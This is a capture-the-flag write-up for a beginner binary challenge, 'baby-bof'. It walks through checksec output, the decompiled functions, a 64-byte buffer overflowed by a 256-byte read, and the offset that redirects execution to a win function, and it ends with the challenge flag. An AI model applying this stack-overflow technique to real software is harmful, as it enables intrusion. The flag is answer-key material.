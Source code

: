 # baby-bof

![Proof](proof.png)

**Author:** `thek0der`  
**Solves:** 105

**writeup made by** `vlad`
---

## Description

This is your first pwn challenge.

We get a `challange` binary

---

## Solve

First i connected to the remote server to see what we get.

When we connect we get the following output:

```
Bine ai venit la PWN!
Spune ceva:
test
La revedere!
```

I inputed `test` when it asked for input and we got disconnected.

The next step is to analyze the binary localy we can first run checksec to check its properties.

```
[!] Could not populate PLT: Cannot allocate 1GB memory to run Unicorn Engine
[*] '/Users/vlad/Downloads/acctf/AC-CTF-Quals/pwn/baby-bof/challenge'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
```

This looks good the binary has no PIE and no canary the only thing we have to mindfull of is NX and the fact that it uses little endian.

Next i opened up the file in `IDA Professional 9.1` and we saw 3 intresting functions: main, vuln and win.

After decoding each one we see the following code:

### main:

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  setvbuf(_bss_start, 0, 2, 0);
  setvbuf(stdin, 0, 2, 0);
  puts("Bine ai venit la PWN!");
  vuln();
  puts("La revedere!");
  return 0;
}
```

### vuln:

```c
ssize_t vuln()
{
  _BYTE buf[64]; // [rsp+0h] [rbp-40h] BYREF

  puts("Spune ceva:");
  fflush(_bss_start);
  return read(0, buf, 0x100u);
}
```

### win:

```c
void __noreturn win()
{
  char s[136]; // [rsp+0h] [rbp-90h] BYREF
  FILE *stream; // [rsp+88h] [rbp-8h]

  stream = fopen("flag.txt", "r");
  if ( !stream )
  {
    puts("Flag missing.");
    fflush(_bss_start);
    exit(1);
  }
  if ( fgets(s, 128, stream) )
  {
    puts(s);
    fflush(_bss_start);
  }
  fclose(stream);
  exit(0);
}
```

We can clearly see that this is a classic stack buffer overflow the buffer is 64 bytes but the code reads 256 bytes.

Since the vuln function returns the flag we just need to overwrite the saved return address to the win function.

Remembering that PIE was disabled addresses are stable we can find out where the win function is using nm:

```
nm challenge | grep win

0000000000401196 T win
```

Now we need to calculate the offset to where we need to write the address to.

The stack frame layout is:
	•	64 bytes: buffer
	•	8 bytes: saved RBP
	•	Next 8 bytes: saved RIP (return address)

So after 72 bytes, we land exactly on the return address.

We have to keep in mind that the binary uses little endian but our exploit layout looks like this:

### [ 64 bytes filler ] + [ 8 bytes filler ] + [ win() address ]

I made a simple script(`solve.py`) that does this automatically and prints the flag but it can easily be done manually.

After running the script we get the following output:

```
[*] Received: Bine ai venit la PWN!
[*] Sending payload...
[*] Flag output:
 
Spune ceva:
ctf{3c1315f63d550570a690f693554647b7763c3acbc806ae846ce8d25b5f364d10}

```


### Flag: ctf{3c1315f63d550570a690f693554647b7763c3acbc806ae846ce8d25b5f364d10}